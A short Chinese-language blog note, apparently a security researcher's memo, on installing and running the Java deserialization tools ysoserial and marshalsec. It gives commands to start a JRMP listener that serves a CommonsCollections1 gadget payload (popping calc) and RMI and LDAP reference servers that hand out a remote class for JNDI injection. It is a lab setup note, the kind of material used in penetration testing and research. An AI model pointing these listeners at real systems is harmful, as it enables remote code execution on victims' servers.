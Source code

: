 ```yaml
---
title: "ysoserial&marshalsec调试"
date: 2022-04-01 13:05:36
onlyTitle: true
categories:
- java
- java杂谈
tags:
- ysoserial
- marshalsec
- JNDI
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B845.png

---
```


ysoserial安装使用调试

## 安装

下载链接：https://github.com/frohoff/ysoserial

下载后需要自己编译生成jar包，这里把测试关掉后package打包就行了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221227133507897.png)

需要java1.7以上

也可以直接下载jar：https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar





# 使用

运行主类函数，如JRMPListener

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPListener 38471
```

运行exploit类。开启交互式服务，这里利用exploit.JRMPListener开启1099端口，并用CC1弹计算器。命令行的-cp参数表示指定classpath

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'calc'
```

查看ysoserial的payload:

```bash
java -jar ysoserial.jar
```





# marshalsec

可以直接下jar版，也可https://gitee.com/mirrors/marshalsec下载后自行编译

开启RMI服务：

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#ExportObject 1099
```

利用jndi.RMIReferServer开启RMI服务，绑定的远程对象在http://127.0.0.1/css/#ExportObject，端口1099

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221226184741732.png)



开启LDAP服务：

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#ExportObject 1389
```

暂时只需要那么多

